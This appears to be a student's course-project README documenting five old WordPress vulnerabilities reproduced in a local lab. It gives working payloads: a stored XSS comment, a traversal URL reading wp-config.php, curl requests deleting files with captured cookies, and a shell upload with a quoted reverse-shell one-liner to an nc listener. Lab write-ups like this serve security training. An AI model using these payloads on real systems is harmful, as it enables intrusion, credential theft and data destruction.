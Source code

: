# Project 7 - WordPress Pentesting

Time spent: **27+** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - <a href="https://www.exploit-db.com/exploits/36844/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
    ![GIF Walkthrough](./img/1.gif)
  - [ ] Steps to recreate: 
     - From the main page click on the post with open comments section
     - Scroll to the comment form and fill the fields
        - In the comment content field paste (the comment has to be at least 64kb long): 
            ```html
                <a title='x onmouseover=alert(unescape(/hello%20world/.source)) 
                style=position:absolute;left:0;top:0;width:5000px;height:5000px  
                AAAAA...[64kb]..AAA'></a>
            ```
    - Post it and get approval from the admin
    - Visit the page with your comment posted
  - [ ] Affected source code:
    - [tags/4.9.8/src/wp-includes/comment.php](https://core.trac.wordpress.org/browser/tags/4.9.8/src/wp-includes/comment.php#L0)

2. Wordpress CodeArt Google MP3 Player plugin - File Disclosure Download
  - [ ] Summary: 
    - Vulnerability types: IDOR
    - <a href="https://www.exploit-db.com/exploits/35460/" target="_blank">Detailed description</a>
    - Tested in version: 4.9.6
    - Fixed in version: N/A
    - Plugin version: <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">1.0.11</a>
    - Plugin fixed version: plugin deleted from wordpress repository
    - ![GIF Walkthrough](./img/2.gif)
  - [ ] Steps to recreate: 
     - Install the <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">plugin</a>
     - Unauthenticated user can follow this URL [http://wpdistillery.vm/wp-content/plugins/google-mp3-audio-player/direct_download.php?file=../../../wp-config.php](http://wpdistillery.vm/wp-content/plugins/google-mp3-audio-player/direct_download.php?file=../../../wp-config.php) and access config file with authentication unique keys and salts.
  - [ ] Affected source code:
    - [wp-content/plugins/google-mp3-audio-player/direct_download.php](https://github.com/cpom/encoremtl/blob/master/wp-content/plugins/google-mp3-audio-player/direct_download.php)

3. Wordpress <= 4.9.6 Arbitrary File Deletion Vulnerability Exploit
  - [ ] Summary: 
    - Vulnerability types: CSRF
    - <a href="https://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/" target="_blank">Detailed description</a>
    - Tested in version: 4.9.6
    - Fixed in version: 4.9.7
    - ![GIF Walkthrough](./img/3.gif)
  - [ ] Steps to recreate: 
     - Login to an account that has an Author role
     - Add an image to library
     - Click on "Edit more details"
     - In the HTML source find a hidden input with an id "_wpnonce" and copy it's value
     - Paste the value in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=' -H '' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'```
     - Copy the cookies from Burp and paste them after -H attribute
     - Paste the post number in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=***' -H '' -d 'action=editattachment&_wpnonce=[value]&thumb=../../../../wp-config.php'```
     - Run the script in terminal. Example: 
        ```bash
        curl -v 'http://192.168.33.10/wp-admin/post.php?post=7' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C225af4c695d4f835e54fa9f089c45b2d3752c7cdf8c6299fdc76a7766fa8b7c0; wp-saving-post=9-saved; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C249a43e337bbe999d6de5357461362d2ef7e951c79d94c61a198d1ffd3b3536a; wp-settings-time-2=1540704911; wp-settings-2=libraryContent%3Dbrowse' -d 'action=editattachment&_wpnonce=8162d5bb40&thumb=../../../../wp-config.php'
        ```
     - Copy "_wpnonce" value from the link with "submitdelete deletion" class
     - Paste the value in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=' -H '' -d 'action=delete&_wpnonce=***'```
     - Paste the post number in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=***' -H '' -d 'action=delete&_wpnonce=[value]'```
     - Copy the cookies from Burp and paste them after -H attribute
     - Run the script in terminal. Example: 
        ```bash
        curl -v 'http://192.168.33.10/wp-admin/post.php?post=7' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C225af4c695d4f835e54fa9f089c45b2d3752c7cdf8c6299fdc76a7766fa8b7c0; wp-saving-post=9-saved; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C249a43e337bbe999d6de5357461362d2ef7e951c79d94c61a198d1ffd3b3536a; wp-settings-time-2=1540704911; wp-settings-2=libraryContent%3Dbrowse' -d 'action=delete&_wpnonce=17b7da78d8'
        ```
     - Refresh wp-admin page

  - [ ] Affected source code:
    - [/tags/4.9.6/src/wp-admin/includes/ajax-actions.php](https://core.trac.wordpress.org/browser/tags/4.9.6/src/wp-admin/includes/ajax-actions.php)

4. WordPress 3.x, 4.x Path Traversal + Directory Listing + File Deletion Vulnerabilities
  - [ ] Summary: 
    - Vulnerability types: Directory traversal/IDOR
    - <a href="https://www.homelab.it/index.php/2014/08/06/wordpress-3-4-vulnerabilities/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: 4.9.8
    ![GIF Walkthrough](./img/4.gif)
  - [ ] Steps to recreate: 
     - Choose a plugin
     - Click on "Deactivate" and "Delete" buttons
     - Replace plugin location with target directory in the url.
        Example: ```http://localhost/wp-admin/plugins.php?action=delete-selected&checked[0]=../../../../var/www/.&plugin_status=all&paged=1&s&_wpnonce=1154979245```
     - Click on "Yes delete these files"
  - [ ] Affected source code:
    - [tags/4.9.8/src/wp-admin/plugins.php](https://core.trac.wordpress.org/browser/tags/4.9.8/src/wp-admin/plugins.php)

5. Wordpress Work the flow file upload 2.5.2 Shell Upload Vulnerability
  - [ ] Summary: 
    - Vulnerability types: Arbitrary Code Execution
    - <a href="https://www.exploit-db.com/exploits/36640/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: N/A
    - Plugin version: <a href="./plugins_repo/work-the-flow-file-upload.2.5.2.zip" target="_blank">2.5.2</a>
    - Plugin fixed version: plugin deleted from wordpress repository
    ![GIF Walkthrough](./img/5.gif)
  - [ ] Steps to recreate: 
     - Install the <a href="./plugins_repo/work-the-flow-file-upload.2.5.2.zip" target="_blank">plugin</a>
     - Unauthenticated user can upload the <a href="./shell_scripts/shell.php" target="_blank">shell script</a> by running this code 
     ```bash
     curl -k -X POST -F "action=upload" -F "files=@./shell.php" http://wpdistillery.vm/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php
     ```
     - Unauthenticated user can run shell scripts on the server.
        Example: (Taken from: https://blaksec.com/index.php?title=DerpNStink:_1_~_VulnHub_-_Walkthrough#Exploitation)
     ```bash
     curl http://wpdistillery.vm/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/shell.php?cmd=hostname
     
     nc -lt -p 4444
     
     curl -G "http://derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/shell.php" --data-urlencode "cmd=rm -f /tmp/backpipe; mkfifo /tmp/backpipe; cat /tmp/backpipe | /bin/sh -i 2>&1|nc 192.168.56.203 4444 >/tmp/backpipe"
     ```
  - [ ] Affected source code:
    - [tags/4.2/src/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php]("./plugins_repo/index.php")

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

It was hard to find any exploits that actually work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.